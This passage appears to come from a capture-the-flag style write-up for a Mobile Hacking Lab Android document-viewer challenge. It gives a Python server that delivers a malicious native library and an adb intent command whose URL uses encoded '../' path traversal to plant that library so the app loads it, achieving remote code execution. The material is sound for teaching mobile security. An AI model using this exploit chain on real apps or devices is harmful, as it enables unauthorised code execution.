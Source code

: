 Now we just need to compile the app and extract the `libdocviewer_pro.so` from inside the generated `.apk`.

### Exploiting the Application

Now we just need to chain our exploits in order to achieve RCE.

First, let's create our web server to serve our malicious library. For this, we create a Python script to facilitate the process.

```python
# server.py
from http.server import HTTPServer, BaseHTTPRequestHandler

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == '/':
            # Handle requests to the root path '/'
            self.send_response(200)
            self.send_header('Content-type', 'text/plain')
            self.end_headers()
            self.wfile.write(b'Hello, World!')
        else:
            # Serve the libdocviewer_pro.so file for other requests
            with open('libdocviewer_pro.so', 'rb') as file:
                data = file.read()
                self.send_response(200)
                self.send_header('Content-type', 'application/octet-stream')
                self.send_header('Content-length', str(len(data)))
                self.end_headers()
                self.wfile.write(data)

# Create an HTTP server bound to port 80
httpd = HTTPServer(('', 80), SimpleHTTPRequestHandler)
print('Server listening on port 80...')
httpd.serve_forever()
```

This code starts a server that responds to requests for `/` with `Hello World!`, and otherwise responds with the content of `libdocviewer_pro.so`.

So on our host, we start the Python server with:
```bash
python server.py
```

And now, simply open the application with the following command to exploit the path traversal vulnerability:
```bash
adb shell am start -a android.intent.action.VIEW -d  "http://192.168.0.101/..%2f..%2f..%2f..%2f..%2f..%2f..%2fdata%2fdata%2fcom.mobilehackinglab.documentviewer%2ffiles%2fnative-libraries%2farm64-v8a%2flibdocviewer_pro.so" -n com.mobilehackinglab.documentviewer/.MainActivity
```

This will place the `libdocviewer_pro.so` inside the correct folder, and now the app will load it, resulting in RCE.
